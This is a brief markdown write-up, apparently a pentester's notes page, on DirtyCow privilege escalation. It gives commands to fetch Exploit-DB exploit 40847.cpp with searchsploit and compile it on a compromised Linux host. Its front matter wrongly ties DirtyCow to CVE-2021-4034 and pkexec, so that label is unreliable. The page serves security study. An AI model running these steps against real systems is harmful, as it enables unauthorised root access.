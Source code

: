 ```yaml
---
description: >-
  DirtyCow CVE-2021-4034
title: DirtyCow Privilege Escalation              # Add title here
date: 2023-06-28 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Linux - DirtyCow]                     # Change Templates to Writeup
tags: [pkexec, dirtycow]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

## Exploit-DB (searchsploit)

You can download the .cpp (C++) script with the following command:
```bash
searchsploit -m linux/local/40847.cpp
```

This is to compile within the compromised machine:
```bash
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

> This only works if the machine is vulnerable to dirty cow, you can use linpeas or linux exploit suggester to check for it. And also the machine must has the `g++` installed for the exploit compilation.
{: .prompt-warning }
